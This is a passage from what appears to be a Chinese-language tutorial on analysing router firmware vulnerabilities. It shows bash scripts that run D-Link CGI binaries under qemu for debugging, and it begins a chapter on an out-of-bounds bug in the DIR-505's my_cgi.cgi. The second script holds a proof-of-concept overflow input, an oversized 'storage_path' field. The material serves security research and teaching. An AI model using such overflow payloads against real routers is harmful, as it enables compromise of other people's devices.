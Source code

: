 ```C
#!/bin/bash
# cgi_run.sh
# sudo ./cgi_run.sh `

python generate.py
INPUT=$(<payload)

LEN=$(echo $INPUT | wc -c)
PORT="1234"


if [ "$LEN" == "0" ] || [ "$INPUT" == "-h" ] || [ "$UID" != "0" ]
then
    echo -e "\nusage: sudo $0\n"
    exit 1
fi

cp $(which qemu-mipsel-static) ./qemu

echo "$INPUT"  | chroot .  ./qemu  -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencodede" -E REQUEST_METHOD="POST"  -E REQUEST_URI="/authentication.cgi" -E REMOTE_ADDR="192.168.1.1" -g $PORT /htdocs/web/authentication.cgi 2>/dev/null
rm -f ./qemu
```

## 第十二章 D-Link DIR-505便携路由器越界漏洞分析

### 漏洞分析

固件下载地址：[ftp://ftp2.dlink.com/PRODUCTS/DIR-505/REVA/DIR-505_FIRMWARE_1.08B10.ZIP](ftp://ftp2.dlink.com/PRODUCTS/DIR-505/REVA/DIR-505_FIRMWARE_1.08B10.ZIP)

漏洞存在于名为“my_cgi.cgi”的cgi脚本中。下载固件，binwalk解压出来，找到该漏洞的核心组件`usr/bin/my_cgi.cgi`，直接使用poc对代码进行调试。
```C
#!/bin/bash
# cgi_run.sh
# sudo ./cgi_run.sh

python generate.py
INPUT=`python -c "print 'storage_path='+'B'*477472+'A'*4"`

LEN=$(echo $INPUT | wc -c)
PORT="1234"


if [ "$LEN" == "0" ] || [ "$INPUT" == "-h" ] || [ "$UID" != "0" ]
then
    echo -e "\nusage: sudo $0\n"
    exit 1
fi

cp $(which qemu-mipsel-static) ./qemu

echo "$INPUT"  | chroot .  ./qemu  -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="multipart/formdata" -E SCRIPT_NAME="common"  -E REQUEST_METHOD="POST"  -E REQUEST_URI="/my_cgi.cgi" -E REMOTE_ADDR="192.168.1.1" -g $PORT /usr/bin/my_cgi.cgi 2>/dev/null
echo "run ok"
rm -f ./qemu
```
